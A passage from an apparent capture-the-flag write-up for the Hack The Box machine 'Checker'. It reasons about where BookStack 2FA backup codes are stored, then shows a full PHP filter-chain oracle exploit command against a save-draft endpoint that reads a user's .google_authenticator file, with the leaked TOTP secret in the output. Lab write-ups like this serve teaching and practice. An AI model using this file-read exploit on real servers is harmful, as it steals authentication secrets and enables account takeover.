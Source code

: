 We can see the contents of `/etc/hosts`.

In the web application at `http://checker.htb/books/linux-security/page/basic-backup-with-cp` you'll find this.

<img src="Img/image7.jpg" alt="Error Image">

While authenticated as Bob in BookStack, navigate to his account settings page, where you’ll find an option to set up two-factor authentication (2FA). Enabling this feature prompts the system to generate and provide backup codes, which can be downloaded as a text file named `backup_codes.txt`. Even without actually enabling 2FA, this process reveals the filename used for storing the codes. Based on this, you can make an educated guess that another user, such as `reader` (as we know from the port 80 creds), might have a similar file stored on their system. A likely location for this file could be `/backup/home_backup/home/reader/backup_codes.txt`, making it a potential target for further investigation. But while looking for SSH 2FA I came across this [setup tutorial](https://goteleport.com/blog/ssh-2fa-tutorial/) so I attempted to read `.google_authenticator` file for the 2FA code as shown below.

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/8/save-draft --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"Content-Type":"application/x-www-form-urlencoded","X-CSRF-TOKEN":"fKSPiJtE6jhoMJBXY2orUrgMj9CxtVjxRHu2uYFD","Cookie":"XSRF-TOKEN=eyJpdiI6IjBxb0Y1dHAzb2VNTnNlWW9IZEJneHc9PSIsInZhbHVlIjoiUkp5YUNHQWNuZEdKUTNMZnJoVjRHQWxXUXhqeUZmaGNqUWRST2NEUXdwMHNQWDdZb0hYaW0rcTFjcGpRcG1RT1BsaUNQb1RMbFhSVlNYZE5BZWdqeXRVSWkva0ttSFdDcEtkWHdSTkZ6dkRnUWh2VmNIMGFoVnpCeVRjU2hxbVgiLCJtYWMiOiIxODczZTgyYWNmODc5ODIyY2VmZmQzM2EyNmU5ZTY5Mzc0ZjBhYWI0NTJhYmE1NDJlYzIyY2I3ODg3OTU3YmNhIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IjJ5VlRRNkFHTSt4TXkvS0crS091U1E9PSIsInZhbHVlIjoiZnMwK2pFZVJtSnBjNE4rZDJKT3VvcDJZZTVySS9ZQVJLYUczdE9uVm1UQURDVGw5MXhUMTJ5T1l6QXA1Mm9DNWRja1N0d2N5Sm5qQWdOYjJMem5TM1ZjV3ZwUWFteDRtTzd1Njh5ZUR3aUlvYUllMHdkaGx6YkUwbVRSbklya0MiLCJtYWMiOiI2MzQyNGJiM2E0NDk0ZDg3ZTk4N2UzYzMzMGQ4YzZjNTdlOTYxZjM1MTczZDdlZmFmYTU5MDBhZGNkYjhhNThhIiwidGFnIjoiIn0%3D;"}'
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```
